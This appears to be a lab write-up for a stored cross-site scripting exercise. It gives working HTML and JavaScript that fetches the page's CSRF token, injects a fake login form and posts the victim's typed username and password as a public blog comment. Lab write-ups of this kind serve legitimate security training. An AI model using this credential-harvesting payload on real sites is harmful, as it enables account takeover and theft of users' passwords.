 Again, I don't have Burp Collaborator and can't use other public servers. I'll use the CSRF method again.

My solution:


First we go to `/login` and copy the code for the username and password tables, which is:

```html
<input required="" type="username" name="username">
<input required="" type="password" name="password">
```

We'll add an id to the username input to make it accessible:

```html
<input required="" type="username" name="username", id=username>
```

And we can use the onchange event to send the creds as a comment:

```html
<script>
var csrf;

function getCsrf () {
  const pageSource = this.responseText;
  csrf = pageSource.match('name="csrf" value="(.*)"')[1]

  console.log(csrf)
}

function sendComment(user, pw) {
  const postId = window.location.href.match('postId=(.*)')[1]

  console.log(csrf, postId, user, pw)

  const changeEmailRequest = new XMLHttpRequest();
  changeEmailRequest.open("POST", "/post/comment");
  changeEmailRequest.send(`csrf=${csrf}&postId=${postId}&comment=${''.concat('>', user, '<>', pw)}&name=a&email=a@a.com&website=http://stam.com')`)
}

// Get CSRF
var req = new XMLHttpRequest();
req.addEventListener("load", getCsrf);
req.open("GET", "/my-account");
req.send();
</script>

<input required="" type="username" name="username", id=username>
<input required="" type="password" name="password" onchange="sendComment(username.value, this.value);">
```